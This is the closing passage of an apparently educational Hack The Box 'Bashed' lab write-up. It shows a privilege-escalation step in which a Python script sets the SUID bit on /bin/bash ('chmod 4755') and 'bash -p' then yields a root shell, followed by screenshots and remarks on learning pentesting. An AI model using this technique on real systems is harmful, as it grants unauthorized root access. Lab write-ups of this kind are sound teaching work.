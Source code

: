 ```bash
cd /scripts
nano privesc.py
```

> **privesc.py**:

```python
#!/usr/bin/python

import os

os.system('chmod 4755 /bin/bash')
```

```bash
ls -l /bin/bash
watch -n 1 ls -l /bin/bash              # :)
bash -p
```

<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> This box is not very complex to **Engage** but it is very good for someone who is just starting in the **Pentesting** field and also you can take advantage of the lab to look for alternative ways or do some scripting and automate the **Engagement**, you can also analyze the misconfigurations and thus not repeat these errors in the environment in which you work. 
**[Hack The Box](https://www.hackthebox.com){:target="_blank"}** always allows you to go further, learn, review and apply methods. I kill the box and look for the new challenge.

<br /><br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
